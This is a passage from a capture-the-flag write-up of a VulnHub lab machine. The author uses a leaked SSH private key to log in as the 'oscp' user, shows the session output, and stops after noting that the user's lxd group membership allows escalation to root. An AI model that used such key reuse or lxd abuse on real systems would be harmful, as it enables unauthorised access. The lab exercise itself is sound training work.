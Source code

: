 ```
-----END OPENSSH PRIVATE KEY-----
```

At this point, I needed to figured out which user this key belonged to.
From reading the web page, I noticed that one user was named `oscp`, so I had two candidate users:

* oscp
* root

I was then able to use the private key to log in as the `oscp` user:

```
kali@kali:~/ctf/vulnhub/oscp/web/loot$ chmod 700 secret.pt
kali@kali:~/ctf/vulnhub/oscp/web/loot$ ssh -i secret.pt oscp@192.168.254.157
The authenticity of host '192.168.254.157 (192.168.254.157)' can't be established.
ECDSA key fingerprint is SHA256:j6pDoPWkkeKgplTqHPtxSxrMqrQRMPl5AIW2Lfn14y8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.254.157' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-40-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon 21 Sep 2020 05:59:52 PM UTC

  System load:  0.08               Processes:             208
  Usage of /:   26.3% of 19.56GB   Users logged in:       0
  Memory usage: 69%                IPv4 address for eth0: 192.168.254.157
  Swap usage:   2%


111 updates can be installed immediately.
46 of these updates are security updates.
To see these additional updates run: apt list --upgradable


Last login: Sat Jul 11 16:50:11 2020 from 192.168.128.1
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

## Privilege Escalation (Abusing lxd group privileges)

I checked the current groups the compromised `oscp` user was part of:

```
-bash-5.0$ id
uid=1000(oscp) gid=1000(oscp) groups=1000(oscp),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

Notably, the `oscp` user was part of the `lxd` group. This meant that this user implicitly had read/write/execute privileges as root without requiring a password.
